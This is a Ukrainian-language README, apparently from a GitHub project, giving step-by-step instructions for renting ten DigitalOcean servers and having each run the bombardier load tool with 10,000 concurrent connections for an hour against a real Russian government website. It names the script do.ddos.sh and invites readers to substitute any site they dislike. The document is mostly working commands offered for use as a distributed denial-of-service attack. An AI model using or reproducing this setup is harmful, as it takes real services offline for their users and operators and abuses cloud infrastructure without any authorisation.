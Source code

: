 Інструкція з розгортання 10-ти дроплетів в хмарі digitalocean

1. Встановіть Linux у VirtualBox або LXC контейнер. https://www.youtube.com/watch?v=-hNMW1PMq4w (Дай Бог здоров'я тобі, Кірюха)
2. Зарееструйтеся в DigitalOcean https://www.websiteplanet.com/ru/blog/%D0%BA%D0%B0%D0%BA-%D0%B7%D0%B0%D1%80%D0%B5%D0%B3%D0%B8%D1%81%D1%82%D1%80%D0%B8%D1%80%D0%BE%D0%B2%D0%B0%D1%82%D1%8C-%D0%B0%D0%BA%D0%BA%D0%B0%D1%83%D0%BD%D1%82-%D0%BD%D0%B0-%D1%81%D0%B5%D1%80%D0%B2/
3. Створіть та додайте ssh-key https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys-2
4. Встановіть та зареєструйте doctl (https://docs.digitalocean.com/reference/doctl/how-to/install/)
5. Встановіть git:   sudo yum install git
6. Встановіть ansible https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#installing-ansible-on-rhel-centos-or-fedora
7. скопіюйте репозиторій git clone git@github.com:Pingva74/digitalocean-helper.git
8. надайте права виконання файлу do.ddos.sh як що їх немає: chmod 755 do.ddos.sh

За замовчанням ви можете створити 10 віртуальних машин вартістю $5 на місяць, цього досить.
Невеличке пояснення що ви створюєте, команда виглядає так:

doctl compute droplet create --region tor1 --image centos-7-x64 --size s-1vcpu-1gb --ssh-keys 30188579  zero0

Нас в ній цікавить --region tor1 - регіон в якому буде створений дроплет, перелік регіонів можна отримати так: 
doctl compute region list

отримаете приблизно такий перелік:

doctl compute region list

Slug    Name               Available

nyc1    New York 1         true

sfo1    San Francisco 1    false

nyc2    New York 2         false

ams2    Amsterdam 2        false

sgp1    Singapore 1        true

lon1    London 1           true

nyc3    New York 3         true

ams3    Amsterdam 3        true

fra1    Frankfurt 1        true

tor1    Toronto 1          true

sfo2    San Francisco 2    false

blr1    Bangalore 1        true

sfo3    San Francisco 3    true


--ssh-keys 30188579 - ключ доступу до дроплета, отримати перелік ключів можна так: doctl compute ssh-key list
отримаемо схожу відповідь:

doctl compute ssh-key list

ID          Name        FingerPrint

30245974    oracle      73:dd:87:ed:05:40:58:26:25:1d:7d:b2:b0:5f:ab:1e

30188579    home        44:10:69:cd:39:cd:ac:01:04:92:a0:78:37:77:29:9b


Нам треба вказати --ssh-keys <ID> Вашого ключа, вони індивідуальні.
zero0 - це ім'я дроплету.
крім того можемо відредагувати файл docker.yml
нас цікавить тільки рядок

 shell: "docker run -ti --rm alpine/bombardier -c 10000 -d 3600s -l www.gosuslugi.ru"

де
-с 10000 - кількість одночасно надісланих запитів
-d 3600s - час життя контейнера в секундах (можливо міняти на свій розсуд)
-l www.gosuslugi.ru - сайт, який вам набрид.

Після завершення роботи контейнера, всі дроплети видаляться автоматично.
Користуйтеся з задоволенням, Слава Україні!
